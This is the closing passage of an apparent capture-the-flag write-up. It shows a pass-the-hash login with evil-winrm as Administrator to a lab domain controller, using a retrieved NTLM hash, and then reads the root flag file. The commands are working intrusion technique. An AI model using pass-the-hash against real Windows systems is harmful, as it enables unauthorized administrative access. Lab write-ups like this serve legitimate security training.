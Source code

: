 We can use the retrived NTLM hash and evil-winrm to connect into DC as Administrator.

```bash
evil-winrm -i 10.10.11.42 -u 'Administrator' -H '3dc553ce4b9fd20bd016e098d2d2fd2e'
```



### Root.flag

```bash
more C:\Users\Administrator\Desktop\root.txt
```



















